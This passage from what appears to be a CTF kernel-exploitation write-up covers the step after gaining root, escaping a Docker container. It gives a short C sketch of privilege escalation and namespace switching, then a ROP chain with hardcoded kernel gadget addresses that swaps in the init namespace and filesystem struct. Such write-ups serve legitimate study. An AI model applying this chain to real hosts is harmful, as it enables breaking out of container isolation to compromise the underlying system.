 ![got a ROOT](https://hackmd.io/_uploads/SJj9iMy-j.png)

ROOT!

# container escape

We have not finished all yet. We a still in a container, and have to escape from it. Actually, I have no knowledge from here. Yes, just cheat. I start just copying from now on. Meaningfull copying. Stupid copying.
Although, there are no hard things if we have a root. `setns()` syscall is restricted in a docker container, we just move to only other filesystem namespace. Like below:

```abst.c
// To get a root...?
commit_cred(prepare_kernel_cred(0));

// To escape from container(fs)...?
switch_task_namespaces(find_task_vpid(1), init_nsproxy);
current->fs = copy_fs_struct(init_fs);
```

That's it! yatta~~~~~

```rop.c
  *rop++ = KADDR(0xffffffff81906510); // pop rdi
  *rop++ = 1; // init process in docker container
  *rop++ = KADDR(0xffffffff810e4fc0); // find_task_by_vpid
  *rop++ = KADDR(0xffffffff812c32a9); // pop rcx (to prevent later `rep`)
  *rop ++ = 0;
  *rop++ = KADDR(0xffffffff81a05e4b); // mov rdi, rax; rep movsq; (simple `mov rdi, rax` not found)
  *rop++ = KADDR(0xffffffff819b21d3); // pop rsi
  *rop++ = KADDR(0xffffffff8245a720); // &init_nsproxy
  *rop++ = KADDR(0xffffffff810ea4e0); // switch_task_namespaces

  *rop++ = KADDR(0xffffffff81906510); // pop rdi
  *rop++ = KADDR(0xffffffff82589740); // &init_fs
  *rop++ = KADDR(0xffffffff812e7350); // copy_fs_struct
  *rop++ = KADDR(0xffffffff8131dab0); // push rax; pop rbx

  *rop++ = KADDR(0xffffffff81906510); // pop rdi
  *rop++ = getpid();
  *rop++ = KADDR(0xffffffff810e4fc0); // find_task_by_vpid

  *rop++ = KADDR(0xffffffff8117668f); // pop rdx
  *rop++ = 0x6E0;
  *rop++ = KADDR(0xffffffff81029e7d); // add rax, rdx
  *rop++ = KADDR(0xffffffff817e1d6d); // mov qword [rax], rbx ; pop rbx ; ret ; (1 found)
  *rop++ = 0; // trash
```


# アウトロ
